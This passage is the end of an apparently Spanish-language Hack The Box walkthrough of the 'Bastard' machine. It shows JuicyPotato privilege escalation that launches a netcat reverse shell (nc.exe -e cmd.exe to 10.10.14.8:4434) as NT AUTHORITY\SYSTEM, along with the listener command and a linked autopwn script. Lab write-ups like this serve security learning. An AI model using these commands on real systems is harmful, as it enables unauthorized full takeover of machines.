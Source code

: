 * `-a`:
  Y como argumentos le decimos que nos genere una nueva **Reverse Shell** pero hacia otro puerto:

  ```powershell
  -a "/c c:\inetpub\drupal-7.54\nc.exe 10.10.14.8 4434 -e cmd.exe"
  ```

Listos, tenemos todo, ahora si generemos nuestra línea:

```powershell
.\jp.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c c:\inetpub\drupal-7.54\nc.exe 10.10.14.8 4434 -e cmd.exe"
```

Antes de ejecutarlo, nos ponemos en escucha por el puerto `4434`:

```bash
❱ nc -lvp 4434
```

Yyyyyyyyyyyyyy ejecutaaaaaamooooooooooooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_jpEXE_ntsystemRevSH_done.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

SI SEEEEEEEÑOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOORA, estamos dentro de la máquina como el usuario `nt authority\system` después de haber ejecutado un proceso (como ese usuario (por el `CLSID`)) que generaba una Reverse Shell. Lindo lindo.

Y pues ya somos amos y señoras del sistema, veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7flags.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

...

Peeeeeeeerrrrrfectoooo. Como ítem final nos generamos un `autopwn` el cual nos brindara una Shell directamente como el usuario **NT authority\system** en el sistema, lo único que necesitamos es tener en la misma ruta del script tanto el binario `nc.exe` como el binario `JuicyPotato.exe`.

***(Claramente se puede mediante el `MS15-051.exe`, pero creo que puede ser un poquititititico complicado, ya que cuando lanzamos la revshell el programa se queda en escucha infinidad de tiempo. Tendríamos que controlar eso.)***

La ejecución del script sería sencilla:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_scriptPY_autopwn_DONE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Y rápidamente tendríamos una Shell (:

> [autopwn_bastard.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/bastard/autopwn_bastard.py)

Y hemos terminao'

...

Linda máquina, el tema de **Drupalgeddon2** ya lo habíamos trabajado así que apenas lo vi pensé en esa vuln. El privesc me gusto bastante, primero porque lo hicimos de dos formas y segundo por el tema del **kernel**, muy lindo todo.

Y bueno, nos vamos, se cuidan y nos leeremos despues, como siempre a rooooooooooooooomper toooooodo!!!